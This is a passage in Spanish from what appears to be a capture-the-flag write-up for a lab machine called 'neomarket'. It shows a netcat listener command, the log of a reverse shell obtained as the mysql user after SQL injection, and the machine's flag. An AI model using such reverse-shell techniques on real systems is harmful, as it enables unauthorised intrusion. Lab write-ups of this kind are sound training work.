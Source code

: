 Antes de enviarlo nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Y si enviamos la peticion y volvemos a la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.1.146] from (UNKNOWN) [192.168.1.152] 44014
bash: no se puede establecer el grupo de proceso de terminal (521): Función ioctl no apropiada para el dispositivo
bash: no hay control de trabajos en este shell
mysql@neomarket:~$ whoami
whoami
mysql
```

Vemos que ha funcionado y entraremos como el usuario `mysql`, por lo que ya habremos terminado la maquina, habiendo explotado de forma correcta la vulnerabilidad de un `SQLi`.

Ahora leeremos la `flag` de la maquina:

> flag.txt

```
ef9e86d644a84fc8cd1c135fd5a3a916
```
